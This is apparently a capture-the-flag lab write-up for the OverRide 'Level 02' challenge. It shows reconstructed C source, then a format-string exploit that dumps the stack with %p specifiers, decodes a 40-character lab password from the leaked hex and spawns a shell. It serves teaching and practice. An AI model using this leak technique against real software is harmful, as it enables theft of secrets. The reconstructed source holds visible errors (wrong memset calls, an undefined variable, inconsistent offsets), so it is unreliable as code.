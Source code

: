 # Level 02

<h3>source.c</h3>

```console
int main() {
	char	str_username[112];    -> [rbp-0x70]
	char	str_file[48];         -> [rbp-0xa0]
	char	str_password[112];    -> [rbp-0x110]
	FILE	*fd;                  -> [rbp-0x8]
	size_t	read_size;          -> [rbp-0xc]

	memset(str_username, 48);
	memset(str_file, 20);
	memset(str_password, 48);
	if ((fd = fopen("/home/users/level03/.pass", "r")) == NULL) {
		fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
		exit(1);
	}
	read_size = fread(str_file, 1, 41, fd);
	str_file[strcspn(str_file, "\n")] = '\0';
	if (read_size != 41) {
		fwrite("ERROR: failed to read password file\n", 1, 24, stderr);
		fwrite("ERROR: failed to read password file\n", 1, 24, stderr);
		exit(1);
	}
	fclose(fd);
	puts("===== [ Secure Access System v1.0 ] =====""]");
	puts("/***************************************\\");
	puts("| You must login to access this system. |");
	puts("\\**************************************/");
	printf("--[ Username: ");
	fgets(str_username, 100, stdin);
	str_username[strcspn(str_username, "\n")] = '\0';
	printf("--[ Password: ");
	fgets(str_password, 100, stdin);
	str_password[strcspn(str_password, "\n")] = '\0';
  puts("*****************************************");
	if (strncmp(str_password, str_file, 41) != 0) {
		printf(str_username);
		puts(" does not have access!");
		exit(1);
	}
	else {
		printf("Greetings, %s!\n", buff);
		system("/bin/sh");
    return (0);
	}
}
```

<h3>Analysis</h3>

This is the first time we encounter a `64bits` program, the asm code looks abit difference but the principle will mostly remain the same

The program will read the password from the file and store it directly into `str_file`

Afterward, it will request for 2 input, which is `username` and `password`

If the password that we give to the program is the same as the one in the `.pass`, we could spawn a shell

But the reason we are hacking this program is because of we dont know the password!!

So there will be no way we could get the password right

What we could do here is that there is `printf(str_username)` which is vulnerable to `format string` attack,

With this we can potentially print the data inside the stack and try to reach the stack area of `str_file` which store the password info

<h3>Exploit</h3>

First we must find out what will be the `printf` arg offset that could reach the `str_file` memory area relative to `str_username`

Base on the asm code, we can see that `str_username` located at [rbp-0x70] and `str_file` is at [rbp-0xa0]

The stack should looks like this

```console
+--------------+       -> rsp [rbp-0x120]
| extra buffer |       -> unused location   size: 16,   0bytes from esp
+--------------+
| str_password |       -> rbp-0x110         size: 112,  16bytes from esp
+--------------+
|   str_file   |       -> rbp-0xa0          size: 48,   128bytes from esp
+--------------+ 
| str_username |       -> rbp-0x70          size: 112,  176bytes from esp
+--------------+ 
|  read_size   |       -> rbp-0xc           size: 8,    276bytes from esp
+--------------+ 
|      fd      |       -> rbp-0x8           size: 8,    280bytes from esp
+--------------+       -> rbp
```

Lets try to print a bunch of `%p` to look at the stack

```console
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: aaaaaaaa %p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
--[ Password: bbbbbbbb
*****************************************
aaaaaaaa 0x7fffffffe4a0|(nil)|0x62|0x2a2a2a2a2a2a2a2a|0x2a2a2a2a2a2a2a2a|0x7fffffffe698|0x1f7ff9a08|0x6262626262626262|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x100000000|(nil)|0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|(nil)|0x6161616161616161|0x257c70257c702520| does not have access!
```

Great we have a bunch of content printed from the stack, lets match it with the the stack 

```console
+--------------+
| str_password |  -> (112/8=14)   [0x6262626262626262|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x100000000|(nil)]
+--------------+
|   str_file   |  -> (48/8=6)     [0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|(nil)]
+--------------+ 
| str_username |  -> (112/8=14)   [0x6161616161616161|0x257c70257c702520|...]
+--------------+ 
```

It seems we may potentially have the content for the `str_file`

`0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|`

Lets convert them to ascii to get the password, this website could help us easier http://www.unit-conversion.info/texttools/hexadecimal/#data

But before we convert it, we must rearrange the hex as this is little endian, so we need to reverse them base on the slot

`|4868373452506e75|51397361354a4145|58674e5743717a37|7358476e68354a35|4d394b6650673348|`

After converting from the website, this is the final result `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

Lets try it!

```console
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, test!
$ whoami
level03
```
